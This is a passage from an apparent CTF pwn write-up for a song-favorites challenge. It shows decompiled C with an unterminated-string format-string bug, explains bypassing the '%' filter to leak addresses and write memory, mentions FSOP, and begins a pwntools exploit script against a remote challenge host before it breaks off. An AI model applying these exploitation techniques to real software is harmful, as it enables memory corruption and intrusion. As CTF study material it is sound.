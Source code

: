 ```c
    ptr = (char *)calloc(0xA2Cu, 1u);
    printf("[~] Please enter a song title: ");
    v2 = getline((__int64)ptr, 0x500);
    printf("[~] Please enter a who %s is from: ", ptr);
    v3 = getline((__int64)(ptr + 0x504), 0x500);
    printf("[~] Please enter which album %s is on: ", ptr + 0xA0C);
    *((_DWORD *)ptr + 642) = getline((__int64)(ptr + 2572), 32);
    *((_DWORD *)ptr + 320) = v2;
    *((_DWORD *)ptr + 641) = v3;
    v1 = *(_BYTE *)(41688LL * (unsigned __int8)cur_user_idx + a1 + 17);
    if ( v1 <= 0xFu )
    {
      memcpy((void *)(a1 + 0xA2D8LL * (unsigned __int8)cur_user_idx + 0xA2CLL * v1 + 16 + 4), ptr, 0xA2Cu);
      if ( strchr(ptr, '%') || strchr(ptr + 0x504, '%') || strchr(ptr + 0xA0C, '%') )
      {
        puts("[-] Found an illegal character :(");
        free(ptr);
      }
      else
      {
        ++*(_BYTE *)(41688LL * (unsigned __int8)cur_user_idx + a1 + 17);
      }
    }
    else
    {
      free(ptr);
      puts("[-] Favorites are full :(");
    }
  }
}
```

I was stuck on how to bypass the `%` check. Then jiegec told me that though the `%` is filtered, and the cnt will not increase, but the `ptr + 0xA0C` string is not non-terminated, so when it is used as format string, it will continue to print the `title` in the next song. And if we have a format string in the title of the next song, we can use that to leak addresses and do writes.

Also, when I got the leaks and try for a rop, it fails by that it will cover up the cnt of the songs and will print our format string **twice**, so I resolve to do the classic house of apple 2 thing and use FSOP to solve.

```py
from pwn import *
context(log_level = 'debug', arch = "amd64", os = "linux")
# p = process("fotispy2")
p = remote("52.59.124.14", 5192)
libc = ELF("./libc.so.6")

libc_leak = 0
def register(name, passwd):
    p.recvuntil("Please enter your choice [4]: ")
    p.sendline("0")
    p.recvuntil("Please enter a username: ")
    p.sendline(name)
    p.recvuntil("Please enter a password: ")
    p.sendline(passwd)

def login(name, passwd):
    p.recvuntil("Please enter your choice [4]: ")
    p.sendline("1")
    p.recvuntil("Please enter a username: ")
    p.sendline(name)
    p.recvuntil("Please enter a password: ")
```